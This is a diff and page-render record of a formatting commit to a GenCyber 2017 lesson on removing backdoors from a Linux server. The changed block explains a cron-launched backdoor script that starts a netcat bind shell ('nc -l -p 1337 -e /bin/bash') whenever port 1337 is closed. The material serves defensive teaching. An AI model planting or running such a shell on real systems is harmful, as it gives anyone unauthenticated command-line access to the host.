

Before and after one commit to slackboxster/slackboxster.github.io, a Jekyll site: the page built from gencyber2017/lesson.md, in a window 1280 px wide and 900 px high, scrolled down 4666 px. Shown: the whole window, without its empty margins (3-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
some formatting tweaks

````diff
--- a/gencyber2017/lesson.md
+++ b/gencyber2017/lesson.md
@@ -104,17 +104,18 @@ In order to find and remove these backdoors from the inside:
             * remove that line from the crontab.
             * make sure it's been removed: `crontab -u rose -l`
         * for fun: explanation of the backdoor:
-            ```
-            It is a script:
+
+            ```bash
+            ## It is a script:
             #!/bin/bash
 
-            This is the command it uses to check that the script is running:
+            ## This is the command it uses to check that the script is running:
             isOn=`netstat -tln | grep ':1337'|wc -l`
 
-            The if statement checks the result of the isOn command -- if it is zero, then
+            ## The if statement checks the result of the isOn command -- if it is zero, then
             if [ $isOn == "0" ]
             then
-              It starts a netcat command that enables data sent to the 1337 port to give access to bash (the command line)
+              ## It starts a netcat command that enables data sent to the 1337 port to give access to bash (the command line)
               nc -l -p 1337 -e /bin/bash
             fi
             ```
@@ -213,6 +214,7 @@ Remove at least the following services:
 
 
 Once a server is secured, the netstat output should look something like this (although it will be a little different on some servers):
+
 ```
 Active Internet connections (only servers)
 Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
````
